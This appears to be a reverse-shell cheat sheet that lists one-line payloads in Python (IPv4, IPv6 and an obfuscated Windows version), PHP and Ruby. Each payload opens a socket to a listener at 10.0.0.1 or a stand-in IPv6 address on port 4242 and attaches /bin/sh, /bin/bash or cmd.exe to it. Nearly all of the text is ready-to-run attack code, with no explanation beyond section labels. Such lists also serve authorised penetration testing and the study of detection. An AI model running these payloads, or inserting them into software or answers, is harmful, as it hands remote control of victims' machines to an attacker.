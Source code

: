 IPv4

    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'

IPv6

    python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::125c",4242,0,2));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=pty.spawn("/bin/sh");'

    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

Windows only

    C:\Python27\python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('10.0.0.1', 4242)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"

### PHP

    php -r '$sock=fsockopen("10.0.0.1",4242);exec("/bin/sh -i <&3 >&3 2>&3");'

    php -r '$sock=fsockopen("10.0.0.1",4242);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'

### Ruby

    ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",4242).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
    
    ruby -rsocket -e 'exit if fork;c=TCPSocket.new("10.0.0.1","4242");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
    